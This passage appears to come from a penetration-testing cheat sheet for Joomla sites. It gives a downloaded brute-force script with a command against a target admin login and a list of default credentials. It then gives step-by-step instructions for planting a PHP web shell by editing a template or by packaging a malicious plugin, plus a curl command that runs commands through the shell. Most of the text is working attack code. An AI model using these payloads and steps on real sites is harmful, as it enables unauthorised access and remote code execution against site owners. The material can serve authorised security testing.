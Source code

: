 #### Password Brute Force
```bash
# Manual brute force script
wget https://raw.githubusercontent.com/ajnik/joomla-bruteforce/master/joomla-brute.py

# Basic brute force
python3 joomla-brute.py -u http://target.com -w passwords.txt -usr admin

# Common credentials to test:
admin:admin
admin:password
admin:joomla
administrator:admin
```

### Joomla Exploitation

#### Template Modification (Admin Access Required)
```php
# Step 1: Login to administrator panel
# Step 2: Navigate to Extensions > Templates > Templates (Site)
# Step 3: Select a template (e.g., Protostar)
# Step 4: Edit a PHP file (e.g., error.php)
# Step 5: Add PHP code execution:

<?php system($_GET['cmd']); ?>

# Alternative one-liner:
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);

# Access webshell:
curl "http://target.com/templates/protostar/error.php?cmd=id"
```

#### Extension Installation RCE
```bash
# Create malicious Joomla extension
cat > shell.php << 'EOF'
<?php
/*
 * Extension Name: Shell
 * Version: 1.0
 */
system($_GET['cmd']);
?>
EOF

# Create extension manifest
cat > shell.xml << 'EOF'
<?xml version="1.0" encoding="utf-8"?>
<extension type="plugin" version="3.0" group="content">
    <name>Shell</name>
    <version>1.0</version>
    <files>
        <file plugin="shell">shell.php</file>
    </files>
</extension>
EOF

# Create extension package
zip shell.zip shell.php shell.xml

# Upload via: Extensions > Manage > Install
```

